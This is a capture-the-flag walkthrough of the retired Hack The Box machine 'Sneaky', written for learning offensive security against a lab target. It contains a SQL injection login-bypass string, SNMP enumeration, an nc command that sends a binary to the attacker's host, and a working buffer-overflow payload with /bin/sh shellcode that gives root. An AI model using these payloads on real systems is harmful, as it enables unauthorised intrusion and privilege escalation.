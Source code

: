 
![logo](/logo.png)

# [Sneaky- BOX]  
Hi folks, today I am going to solve an medium rated hack the box machine which was released on 03 May 2017 as the 14th machine on HTB,Sneaky created by [trickster0](https://app.hackthebox.com/users/169).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *bufferoverflow
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/sneaky 10.10.10.20
```

###### Output 

![](/Linux/Linux-Medium/Sneaky/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/sneaky 10.10.10.20                                                                                          ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-18 10:58 EAT
Nmap scan report for 10.10.10.20
Host is up (0.37s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Under Development!
|_http-server-header: Apache/2.4.7 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.19 seconds
```

looking at the results  we find out that there are 1 ports open and its a `Ubuntu`and its running an `Apache httpd 2.4.7`. 

port[80]-http

when we naviagate to [http://10.10.10.20](http://10.10.10.20)  we find a page  `under devolpment`

![](/Linux/Linux-Medium/Sneaky/Screenshots/underdevs.png)

we find nothing of intreasting on the page so lets try enumerate directories with `gobuster` 

```sh
gobuster dir -u http://10.10.10.20 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -k 
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/gobuster.png)

Imedialtely we find  a dev dierectory and upon looking at  it we find a page [http://10.10.10.20/dev/](http://10.10.10.20/dev/)
![](/Linux/Linux-Medium/Sneaky/Screenshots/dev.png)

# Exploitation

#### SQL Injection

SQL injection on the dev page is trivial. Simply passing `admin' OR '1'='1` as the password will completely bypass the login and reveal an SSH key as well as a system username.

![](/Linux/Linux-Medium/Sneaky/Screenshots/ssh.png)

```sh
curl -s http://10.10.10.20/dev/sshkeyforadministratordifficulttimes -o id_rsa
```

The issue now arises that there is seemingly no SSH server available on the target as nmap showed. so let repeat nmap to see if we can get anthing of `udp` 

```sh
nmap -sV -sC -sU -oA nmap/sneaky 10.10.10.20 
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/udp.png)

we find a udp port that is open `161` and it is running an `SNMPV1` and `SNMPv3`

### SNMP

since snmp is availabe lets runn `snmpwalk` on the htb target but with an `Ipv4`  that we are using for to connect to HTB .

```sh
snmpwalk -Os -c public -v 1 10.10.10.20
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/snmpwalk.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/unreaable.png)


since our output is not readable lets download an `add-on-package` to make our output readable

```sh
sudo apt install snmp-mibs-downloader
```

and then comment out the line in `/etc/snmp/snmp.conf`  comment the `mib:`

we can see an `IPv6` 

![](/Linux/Linux-Medium/Sneaky/Screenshots/readable.png)

#### something about IPV6
`dead:beef:0000:0000:0250:56ff:feb9:be08` is the globally routable address, and `fe80:0000:0000:0000:0250:56ff:feb9:be08` is the link-local address.

This address will change on each boot because of how HTB has the machines spawn in the lab (MACs aren’t consistent). I wrote a one-liner to capture the IPv6:

```sh
snmpwalk -v2c -c public 10.10.10.20 ipAddressIfIndex.ipv6 | cut -d'"' -f2 | grep 'de:ad' | sed -E 's/(.{2}):(.{2})/\1\2/g'
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/oneliner.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/snm.png)

Now that we have the IP lets do an nmap to see if wee can find port 22 open for the ssh.But first just checking on the browser it looks like we can access the Ivp6

![](/Linux/Linux-Medium/Sneaky/Screenshots/Ivp6b.png)

```sh
nmap -6 -p- -sV -oA nmap/sneakyIvp6 dead:beef:0000:0000:0250:56ff:feb0:a425
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/nmapipv6.png)

Now that port `22` is open we can `ssh` to it with the user earlier

![](/Linux/Linux-Medium/Sneaky/Screenshots/shell.png)

You can get the user flag now

![](/Linux/Linux-Medium/Sneaky/Screenshots/userflag.png)
#### Alternative Methods for Finding IPv6

# Privillge Escalation

Now that we got the shell let run `LinEnum` to find vulnerablility in the machine

![](/Linux/Linux-Medium/Sneaky/Screenshots/wget.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/suid.png)

Running LinEnum reveals a non-standard `SUID` binary at `/usr/local/bin/chal`. Attempting to run
the binary with a large argument produces a segmentation fault, and it is fairly obvious that it is
vulnerable to a buffer overflow exploit.

let's send the binary to our machine so that we can anlyze it .

```sh
nc -w 5 10.10.14.15 8000 < chal
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/binary.png)

![](/Linux/Linux-Medium/Sneaky/Screenshots/chal.png)

Running the binary in gdb with a pattern reveals that the EIP offset is `362 bytes`. The buffer
appears to start roughly around 0xbffff760 in this case, so a return address of `0xbffff7b0` will be used in the payload to account for any shift in addresses. The target is little endian, so the return
address must be provided in reverse order.

The payload is very simple as far as buffer overflows as concerned. It is (with a `28 byte /bin/sh`
shellcode) a `334` byte long NOP sled, followed by the shellcode, and then the return address. The
following command will immediately grant a root shell.

```sh
chal $(python -c "print '\x90'*334 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\xb0\xf7\xff\xbf' ")
```

![](/Linux/Linux-Medium/Sneaky/Screenshots/rootflag.png)


	-------------------------END successful attack @lesley----------------------
